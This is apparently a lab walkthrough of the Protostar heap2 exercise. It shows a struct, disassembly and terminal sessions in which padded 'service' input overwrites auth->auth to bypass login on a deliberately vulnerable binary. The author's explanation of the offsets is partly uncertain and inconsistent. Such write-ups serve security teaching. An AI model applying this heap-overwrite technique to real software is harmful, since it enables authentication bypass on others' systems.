 The program leaves all the bits in `auth->auth` cleared and provide no function to change its value. On the surface, this means we can never be logged in. But with the input `service`, we can overwrite the memory address that corresponds to `auth->auth` to authenticate. We just need a padding of 32 characters for the character array `name`, and the 33rd character will overwrite `auth->auth`. 
```
struct auth {
  char name[32];
  int auth;
};

0x08048a86 <main+338>:	mov    eax,ds:0x804b5f4             ; ds:0x804b5f4 is pointer variable auth
0x08048a8b <main+343>:	mov    eax,DWORD PTR [eax+0x20]     ; eax+0x20 deferences auth->auth
0x08048a8e <main+346>:	test   eax,eax                      ; if auth->auth is 0, log in failed.
```

So obviously, with our input `service zzzyyyxxx`, `auth->auth` will not be overwritten and a password will be demanded.
```
user@protostar:/opt/protostar/bin$ ./heap2 
[ auth = (nil), service = (nil) ]
auth solo
[ auth = 0x804c008, service = (nil) ]
auth swjs
[ auth = 0x804c018, service = (nil) ]
reset
[ auth = 0x804c018, service = (nil) ]
service xxxyyyzzz
[ auth = 0x804c018, service = 0x804c018 ]
login
please enter your password
[ auth = 0x804c008, service = 0x804c018 ]
```

Ok let's try the longer input. It worked. But, why is `service` now showing address `0x804c028` instead of `0x804c018`? I have no idea either. Even though the memory chunk `auth` points to is freed, `strdup` just does not use it if the string is long. It just decides to use a different portion of the memory.
```
user@protostar:/opt/protostar/bin$ ./heap2 
[ auth = (nil), service = (nil) ]
auth solo
[ auth = 0x804c008, service = (nil) ]
auth swjs
[ auth = 0x804c018, service = (nil) ]
reset
[ auth = 0x804c018, service = (nil) ]
servicexxxxyyyyzzzz0000111122223333
[ auth = 0x804c018, service = 0x804c028 ]
login
you have logged in already!
[ auth = 0x804c008, service = 0x804c028 ]
```
That might be confusing, but it does *not* change the fact that the address of `auth->auth` is just offset of 0x20 bytes from `auth`. In the case above, it is in address `0x804c038`. Thus, for its value to be overwritten by `service`, the input just needs to be 0x11 bytes long. 0x10 bytes are for padding, and the last byte to overwrite `auth->auth`. The entire string is `'aaaabbbbccccdddd\n'`.
```
user@protostar:/opt/protostar/bin$ ./heap2 
[ auth = (nil), service = (nil) ]
auth solomon
[ auth = 0x804c008, service = (nil) ]
reset
[ auth = 0x804c008, service = (nil) ]
serviceaaaabbbbccccdddd
[ auth = 0x804c008, service = 0x804c018 ]
login
```